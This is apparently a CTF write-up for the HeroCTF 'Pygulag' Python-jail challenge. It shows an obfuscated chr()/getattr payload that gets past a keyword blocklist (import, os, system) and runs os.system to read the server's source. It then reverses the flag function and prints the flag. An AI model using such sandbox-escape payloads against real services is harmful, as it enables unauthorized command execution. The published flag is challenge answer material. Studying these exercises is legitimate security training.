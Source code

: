 # Pygulag
Category: Misc

## Description
You've escaped from jail. But you're not the smartest guy out there, and got caught again. This time, you were sent to the gulag. Good luck escaping that one...

If you're stuck, look in the past, it might hold some ideas.

NB: The pyjail is running on python3

\> Deploy on [deploy.heroctf.fr](https://deploy.heroctf.fr/)

Format : **Hero{flag}**

Author : **Log_s**

## Write-up
- To determine the available built-in functions similar to the [Pyjail](../misc-pyjail/README.md) challenge, we attempted to execute `print(__builtins__)`. However, this time we received the response `You're trying something fancy aren't u ?`. This indicates that the challenge creator implemented some form of input validation.
- To verify that the `print` function still works, we executed `print(1)` and confirmed that it produced the expected output.
- To execute the desired payload `print.__self__.__import__("os").system("cat pyjail.py")`, we needed to identify the keywords that might trigger the validation.
- Through testing, we discovered that when our input included the words `import`, `os`, or `system`, they will be flagged as malicious. However, words such as dot (`.`), `__self__`, `cat`, and `pyjail.py` were not recognized as forbidden.

![](solution/image1.png)

- We devised an alternative payload by converting characters from decimal to construct our forbidden words. We found that the plus symbol (`+`), numbers, `getattr`, and `chr` were not considered malicious.
- Utilizing this knowledge, we crafted a similar payload using different syntax:
```
print.__self__.getattr(print.__self__.getattr(print.__self__, print.__self__.chr(95) + print.__self__.chr(95) + print.__self__.chr(105) + print.__self__.chr(109) + print.__self__.chr(112) + print.__self__.chr(111) + print.__self__.chr(114) + print.__self__.chr(116) + print.__self__.chr(95) + print.__self__.chr(95))(print.__self__.chr(111) + print.__self__.chr(115)), print.__self__.chr(115) + print.__self__.chr(121) + print.__self__.chr(115) + print.__self__.chr(116) + print.__self__.chr(101) + print.__self__.chr(109))("cat pyjail.py")
```
- Running this payload successfully revealed the contents of the pyjail.py file, as shown in the screenshot provided (can also be viewed [here](solution/pyjail.py)).

![](solution/image2.png)
  
- Upon analyzing the code, we found a function of interest named `ImTheFlagFunction9876543210(key)`.
```
def ImTheFlagFunction9876543210(key):
    p1 = "Hero{4"
    p2 = "33e8e40da5bec09"[::-1]
    p3 = ''
    x = 12
    for c in b'?;9ms!w$ -.. ++':
        p3 += chr(c^x)
        x += 1
    key = key[1]
    p4 = chr((ord(key)//ord(key))*48)
    p5 = "}"
    flag = p1 + p2 + p3 + p4 + p5
    return "Hero{F4ke_Fl4g}"
```
- Upon closer examination, we observed that the function's result is highly deterministic. It takes the second index of the `key` parameter, divides it by itself (which always evaluates to `1`), multiplies the result by `48`, and converts it to a character.
- We rewrote the function as follows:
```
def ImTheFlagFunction9876543210():
    p1 = "Hero{4"
    p2 = "33e8e40da5bec09"[::-1]
    p3 = ''
    x = 12
    for c in b'?;9ms!w$ -.. ++':
        p3 += chr(c^x)
        x += 1
    p4 = chr(48)
    p5 = "}"
    flag = p1 + p2 + p3 + p4 + p5
    return flag
```
- Running this modified code in a Python interpreter displayed the flag: `Hero{490ceb5ad04e8e33367bc0e748898210}`.

Flag: `Hero{490ceb5ad04e8e33367bc0e748898210}`
